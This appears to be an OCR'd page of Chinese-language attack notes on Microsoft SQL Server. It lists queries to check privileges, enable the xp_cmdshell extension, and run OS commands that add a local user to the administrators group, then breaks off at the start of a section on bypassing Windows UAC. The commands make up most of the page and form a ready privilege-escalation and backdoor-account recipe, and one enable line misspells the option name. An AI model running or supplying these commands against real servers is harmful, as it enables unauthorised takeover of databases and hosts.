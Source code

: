   
获取所有的数据库名  
  
1. 查看当前版本
```
select @@version
```

  
  
判断当前是否为sa
```
select is_srvrolemember('sysadmin')
```

  
  
判断是否有public权限
```
select is_srvrolemember('public')
```

  
  
判断是否有读写文件权限
```
select is_srvrolemember('db_owner')
```

  
  
1. 查看数据库中是否有xp_cmdshell扩展存储插件，return 1则有  

```
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
```

  
  
（2005后的版本)：  
1. 开启xp_cmdshell  
  
```exec sp_configure 'show advance options',1;//允许修改高级参数  
  
reconfigure;  
  
exec sp_configure 'xp_cmshell',1;//打开xp_cmdshell扩展  
  
reconfigure;  

```
2. xp_cmdshell执行命令

```exec master..xp_cmdshell 'net user name passwd /add'//添加用户name,密码passwd
exec master..xp_cmdshell 'net localgroup administrators name /add'//添加name到管理员组
```

### windows bypass uac  
  
uac(user acount control)可以阻止未授权的应用程序自动安装，并防止无意中更改系统设置  
> uac的三种设置要求：  
> 始终通知仅在系统试图更改我的计算机时通知（Uac默认设置，第三方使用高级别权限时会提示本地用户)从不提示(用户为系统管理员时所有程序都会以最高权限运行)  
  